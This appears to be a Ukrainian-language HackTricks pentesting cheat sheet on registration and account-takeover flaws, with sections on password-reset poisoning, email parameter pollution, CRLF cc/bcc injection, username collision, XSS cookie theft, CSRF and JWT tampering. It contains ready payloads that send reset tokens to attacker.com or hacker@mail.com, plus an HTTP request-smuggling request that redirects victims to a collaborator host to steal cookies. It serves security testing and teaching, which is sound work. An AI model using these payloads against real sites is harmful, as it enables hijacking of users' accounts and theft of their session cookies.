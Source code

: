 # Вразливості реєстрації та захоплення

{{#include ../banners/hacktricks-training.md}}

## Захоплення реєстрації

### Дублювання реєстрації

- Спробуйте згенерувати, використовуючи існуюче ім'я користувача
- Перевірте, варіюючи електронну пошту:
- великі літери
- \+1@
- додайте крапку в електронній пошті
- спеціальні символи в імені електронної пошти (%00, %09, %20)
- Додайте чорні символи після електронної пошти: `test@test.com a`
- victim@gmail.com@attacker.com
- victim@attacker.com@gmail.com

### Перерахування імен користувачів

Перевірте, чи можете ви з'ясувати, коли ім'я користувача вже було зареєстровано в додатку.

### Політика паролів

Створюючи користувача, перевірте політику паролів (перевірте, чи можете ви використовувати слабкі паролі).\
У цьому випадку ви можете спробувати брутфорсити облікові дані.

### SQL-ін'єкція

[**Перевірте цю сторінку** ](sql-injection/index.html#insert-statement), щоб дізнатися, як спробувати захоплення облікових записів або витягти інформацію через **SQL-ін'єкції** у формах реєстрації.

### Захоплення Oauth

{{#ref}}
oauth-to-account-takeover.md
{{#endref}}

### Вразливості SAML

{{#ref}}
saml-attacks/
{{#endref}}

### Зміна електронної пошти

Після реєстрації спробуйте змінити електронну пошту та перевірте, чи ця зміна правильно перевіряється або чи можна змінити її на довільні електронні адреси.

### Більше перевірок

- Перевірте, чи можете ви використовувати **одноразові електронні адреси**
- **Довгий** **пароль** (>200) призводить до **DoS**
- **Перевірте обмеження швидкості на створення облікових записів**
- Використовуйте username@**burp_collab**.net і аналізуйте **callback**

## **Захоплення скидання пароля**

### Витік токена скидання пароля через реферер <a href="#password-reset-token-leak-via-referrer" id="password-reset-token-leak-via-referrer"></a>

1. Запросіть скидання пароля на вашу електронну адресу
2. Натисніть на посилання для скидання пароля
3. Не змінюйте пароль
4. Перейдіть на будь-які сторонні вебсайти (наприклад: Facebook, Twitter)
5. Перехопіть запит у проксі Burp Suite
6. Перевірте, чи заголовок referer витікає токен скидання пароля.

### Отруєння скидання пароля <a href="#account-takeover-through-password-reset-poisoning" id="account-takeover-through-password-reset-poisoning"></a>

1. Перехопіть запит на скидання пароля в Burp Suite
2. Додайте або відредагуйте наступні заголовки в Burp Suite: `Host: attacker.com`, `X-Forwarded-Host: attacker.com`
3. Перешліть запит з модифікованим заголовком\
`http POST https://example.com/reset.php HTTP/1.1 Accept: */* Content-Type: application/json Host: attacker.com`
4. Шукайте URL скидання пароля на основі _заголовка host_, наприклад: `https://attacker.com/reset-password.php?token=TOKEN`

### Скидання пароля через параметр електронної пошти <a href="#password-reset-via-email-parameter" id="password-reset-via-email-parameter"></a>
```powershell
# parameter pollution
email=victim@mail.com&email=hacker@mail.com

# array of emails
{"email":["victim@mail.com","hacker@mail.com"]}

# carbon copy
email=victim@mail.com%0A%0Dcc:hacker@mail.com
email=victim@mail.com%0A%0Dbcc:hacker@mail.com

# separator
email=victim@mail.com,hacker@mail.com
email=victim@mail.com%20hacker@mail.com
email=victim@mail.com|hacker@mail.com
```
### IDOR на параметрах API <a href="#idor-on-api-parameters" id="idor-on-api-parameters"></a>

1. Атакуючий повинен увійти в свій обліковий запис і перейти до функції **Змінити пароль**.
2. Запустіть Burp Suite і перехопіть запит.
3. Відправте його на вкладку повторювача та відредагуйте параметри: User ID/email\
`powershell POST /api/changepass [...] ("form": {"email":"victim@email.com","password":"securepwd"})`

### Слабкий токен скидання пароля <a href="#weak-password-reset-token" id="weak-password-reset-token"></a>

Токен скидання пароля повинен генеруватися випадковим чином і бути унікальним щоразу.\
Спробуйте визначити, чи токен має термін дії або завжди однаковий, в деяких випадках алгоритм генерації є слабким і може бути вгаданий. Наступні змінні можуть використовуватися алгоритмом.

- Timestamp
- UserID
- Email користувача
- Ім'я та прізвище
- Дата народження
- Криптографія
- Тільки числа
- Невелика послідовність токенів (символи між \[A-Z,a-z,0-9])
- Повторне використання токена
- Дата закінчення терміну дії токена

### Витік токена скидання пароля <a href="#leaking-password-reset-token" id="leaking-password-reset-token"></a>

1. Викличте запит на скидання пароля, використовуючи API/UI для конкретної електронної пошти, наприклад: test@mail.com
2. Перевірте відповідь сервера та перевірте наявність `resetToken`
3. Потім використовуйте токен в URL, наприклад `https://example.com/v3/user/password/reset?resetToken=[THE_RESET_TOKEN]&email=[THE_MAIL]`

### Скидання пароля через колізію імені користувача <a href="#password-reset-via-username-collision" id="password-reset-via-username-collision"></a>

1. Зареєструйтеся в системі з іменем користувача, ідентичним імені користувача жертви, але з пробілами перед і/або після імені користувача. наприклад: `"admin "`
2. Запросіть скидання пароля з вашим шкідливим іменем користувача.
3. Використовуйте токен, надісланий на вашу електронну пошту, і скиньте пароль жертви.
4. Увійдіть до облікового запису жертви з новим паролем.

Платформа CTFd була вразливою до цієї атаки.\
Дивіться: [CVE-2020-7245](https://nvd.nist.gov/vuln/detail/CVE-2020-7245)

### Захоплення облікового запису через міжсайтовий скриптинг <a href="#account-takeover-via-cross-site-scripting" id="account-takeover-via-cross-site-scripting"></a>

1. Знайдіть XSS всередині програми або піддомену, якщо куки обмежені до батьківського домену: `*.domain.com`
2. Витікайте поточний **cookie сесії**
3. Аутентифікуйтеся як користувач, використовуючи cookie

### Захоплення облікового запису через підробку HTTP-запитів <a href="#account-takeover-via-http-request-smuggling" id="account-takeover-via-http-request-smuggling"></a>

1\. Використовуйте **smuggler** для виявлення типу підробки HTTP-запитів (CL, TE, CL.TE)\
`powershell git clone https://github.com/defparam/smuggler.git cd smuggler python3 smuggler.py -h`\
2\. Сформуйте запит, який перезапише `POST / HTTP/1.1` з наступними даними:\
`GET http://something.burpcollaborator.net HTTP/1.1 X:` з метою перенаправлення жертв на burpcollab і крадіжки їхніх куків\
3\. Остаточний запит може виглядати наступним чином
```
GET / HTTP/1.1
Transfer-Encoding: chunked
Host: something.com
User-Agent: Smuggler/v1.0
Content-Length: 83
0

GET http://something.burpcollaborator.net  HTTP/1.1
X: X
```
Hackerone повідомляє про експлуатацію цього багу\
\* [https://hackerone.com/reports/737140](https://hackerone.com/reports/737140)\
\* [https://hackerone.com/reports/771666](https://hackerone.com/reports/771666)

### Захоплення облікового запису через CSRF <a href="#account-takeover-via-csrf" id="account-takeover-via-csrf"></a>

1. Створіть payload для CSRF, наприклад: “HTML форма з автоматичною відправкою для зміни пароля”
2. Відправте payload

### Захоплення облікового запису через JWT <a href="#account-takeover-via-jwt" id="account-takeover-via-jwt"></a>

JSON Web Token може бути використаний для аутентифікації користувача.

- Змініть JWT на інший User ID / Email
- Перевірте на слабкий підпис JWT

{{#ref}}
hacking-jwt-json-web-tokens.md
{{#endref}}

## Посилання

- [https://salmonsec.com/cheatsheet/account_takeover](https://salmonsec.com/cheatsheet/account_takeover)

{{#include ../banners/hacktricks-training.md}}
